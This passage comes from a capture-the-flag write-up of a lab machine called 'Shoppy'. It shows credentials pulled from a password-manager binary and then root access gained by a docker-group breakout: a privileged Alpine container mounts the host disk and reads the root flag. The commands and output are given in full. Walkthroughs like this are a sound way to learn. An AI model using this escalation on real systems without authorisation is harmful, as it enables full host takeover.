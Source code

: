Going back to the ssh session and submitting Sample yields us another set of credentials!

```
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: 
$ ls
creds.txt  password-manager  password-manager.cpp
$ bash
deploy@shoppy:~$ 
```

So we're in the deploy user now, but the box doesn't let us run sudo -l on this user.

```
deploy@shoppy:~$ sudo -l
[sudo] password for deploy: 
Sorry, user deploy may not run sudo on shoppy.
```

However, if we run the id command, we can see that we are a part of the docker group.

```
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

There's a couple tricks we can do with this, and I'm going to use [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation), which explains this all really well and is definitely worth a read. But the basic idea is that I'll run the docker, which runs as root, and mount the original file system on my own so I can access basically everything, since I'm the root user. Then I just read the root flag and complete this box.

```
deploy@shoppy:~$ docker run --rm -it --privileged alpine /bin/sh
/ # mkdir -p /mnt/jsquared
/ # mount /dev/sda1 /mnt/jsquared
/ # cd /mnt/jsquared/
/mnt/jsquared # cat root/root.txt
429f53ce048004f7b128da89359a7631
/mnt/jsquared # 

```
